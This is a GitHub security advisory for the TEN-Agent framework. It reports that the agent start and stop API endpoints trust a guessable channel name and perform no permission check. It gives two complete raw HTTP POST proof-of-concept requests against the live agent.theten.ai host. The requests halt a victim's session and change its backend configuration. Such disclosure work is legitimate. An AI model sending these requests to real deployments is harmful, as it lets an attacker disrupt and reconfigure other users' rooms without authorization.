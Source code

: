 ### Summary
A large number of interfaces only determine user identity through the parameter channel_name without performing permission verification  
**resulting in a large number of unauthorized vulnerabilities All interfaces have not undergone permission verification** 
**Allowing attackers to close other people's connections and data based on the channel name**



We can regard https://agent.theten.ai/home as victim example  
Use two accounts to replicate this operation
### DETAIL
1. Victim login  

![image](https://github.com/user-attachments/assets/5dd3199b-16fe-4496-9482-d1827374bb24)
Notice The channel name 

2. Attackers send data packets (Assume attcker guess the right victim channel name[quiet easy]) 

![image](https://github.com/user-attachments/assets/f3190e3c-373c-4041-bcd1-47275d628ba7)
POC 
```
POST /api/agents/stop HTTP/2
Host: agent.theten.ai
Content-Length: 85
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: https://agent.theten.ai
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://agent.theten.ai/home
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"request_id":"6182c335-2eb9-4f64-8c87-510b953d52b312","channel_name":"agora_02nq0h"}
```
The channel name can be traversed own By victim, and after this request is sent, the corresponding room will pause the connection

3. Users can reset the link properties in room by accessing the POST/app/agents/start interface
Note that there is no association between user_id and channel
![image](https://github.com/user-attachments/assets/abc831e8-e9f9-40a2-8454-84729ab5ccc3)
```
POST /api/agents/start HTTP/2
Host: agent.theten.ai
Content-Length: 178
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: https://agent.theten.ai
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://agent.theten.ai/home
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"request_id":"094a98a1-ece7-4906-95c5-bc3a877932a7","channel_name":"agora_02nq0h","user_uid":119866,"graph_name":"camera.va.openai.azure","language":"zh-CN","voice_type":"male"}
```


4. We edited the graph_name as separate data, but it was not displayed on the user's frontend, but it did indeed change in the backend

![image](https://github.com/user-attachments/assets/8e37fdd6-647e-4bd8-9faa-a94bbd2eb893)  




#### impact
Being able to modify someone else's room configuration beyond their authority and creating DOS vulnerabilities in their use of the room,Besides  

[Github Refer](https://github.com/TEN-framework/TEN-Agent)
[Security Refer](https://github.com/TEN-framework/TEN-Agent/security/advisories/GHSA-phmj-cmwp-4hcf)
